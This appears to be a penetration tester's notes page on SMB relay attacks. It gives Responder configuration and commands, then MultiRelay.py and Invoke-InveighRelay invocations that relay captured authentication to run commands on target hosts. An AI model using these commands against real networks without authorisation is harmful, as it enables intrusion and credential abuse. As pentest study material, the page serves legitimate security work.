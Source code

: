 # SMB Relay

### MultiRelay.py

For SMB Relay to be possible, you must turn off SMB and HTTP within the responder config file (you can change it back when you have finished)

Set responder.conf to:

![](../../.gitbook/assets/image.png)

Then run responder:

```
Responder -i xxx.xxx.xxx.xxx -I eth0 -f -b -w
```

Then run the following in another terminal session

```
/usr/share/responder/tools/MultiRelay.py -t <target_IP> -u ALL
```

### Inveigh Relay

Session attack requires SMB tools from Invoke-TheHash

{% embed url="https://github.com/Kevin-Robertson/Invoke-TheHash" %}

```
Invoke-InveighRelay -ConsoleOutput Y -Target 10.0.2.110 -Command "...."
```

